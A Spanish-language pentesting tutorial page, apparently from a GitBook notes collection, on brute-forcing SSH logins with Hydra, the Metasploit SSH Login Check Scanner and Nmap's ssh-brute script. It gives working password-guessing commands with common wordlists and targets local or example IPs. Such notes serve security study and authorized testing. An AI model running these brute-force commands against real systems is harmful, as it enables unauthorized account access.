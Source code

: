 ```yaml
---
description: En esta página aprenderás a enumerar y hacer fuerza bruta ante el servicio SSH
cover: >-
  https://images.unsplash.com/photo-1576502200916-3808e07386a5?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHw2fHxnZW9tZXRyaWN8ZW58MHx8fHwxNjg5MjQxNDA2fDA&ixlib=rb-4.0.3&q=85
coverY: 278
---
```


# 22 - SSH

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio SSH, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```bash
hydra -l user -P passwords.txt ssh://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio SSH no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```bash
hydra -l user -P passwords.txt ssh://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```bash
hydra -L users.txt -p Password123 ssh://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```bash
hydra -L users.txt -P passwords.txt ssh://127.0.0.1 -t 15
```

### Metasploit

Para esto, usaremos el modulo "SSH Login Check Scanner". Deberemos de configurar las siguientes opciones:

* USERNAME -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASSWORD -> En el caso de que usemos una contraseña concreta
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* RHOSTS -> IP de la máquina victima

### Nmap

Podemos emplear el script "`ssh-brute`" para usar fuerza bruta. En este caso no es necesario especificar un diccionario de contraseñas, solo de usuarios:

```bash
nmap -p 22 --script ssh-brute --script-args userdb=/root/users 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
